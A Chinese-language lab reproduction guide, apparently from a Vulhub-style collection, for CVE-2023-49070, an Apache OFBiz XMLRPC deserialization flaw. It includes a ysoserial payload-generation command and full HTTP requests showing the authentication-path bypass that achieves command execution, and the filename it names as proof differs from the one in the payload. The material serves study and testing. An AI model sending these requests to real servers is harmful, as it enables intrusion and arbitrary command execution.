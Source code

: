 # Apache OfBiz 反序列化命令执行漏洞 CVE-2023-49070

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

在Apache OFBiz 17.12.03版本及以前存在一处XMLRPC导致的反序列漏洞，官方于后续的版本中对相关接口进行加固修复漏洞，但修复方法存在绕过问题（CVE-2023-49070），攻击者仍然可以利用反序列化漏洞在目标服务器中执行任意命令。

Apache OFBiz官方于18.12.10中彻底删除xmlrpc接口修复该漏洞。

参考链接：

- [https://www.openwall.com/lists/oss-security/2023/12/04/2](https://www.openwall.com/lists/oss-security/2023/12/04/2)

## 环境搭建

Vulhub 执行如下命令启动一个Apache OfBiz 18.12.09版本：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

漏洞复现方式与[CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496)相似，只是需要绕过官方对于漏洞的补丁限制。

首先，仍然使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212094740031.png)

使用CVE-2020-9496中的复现方法发送数据包，已经无法成功进入XMLRPC的解析流程：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095704854.png)


把Path修改成`/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y`即可绕过限制：

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095750567.png)

进入容器中，可见`touch /tmp/success`已成功执行：

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095901069.png)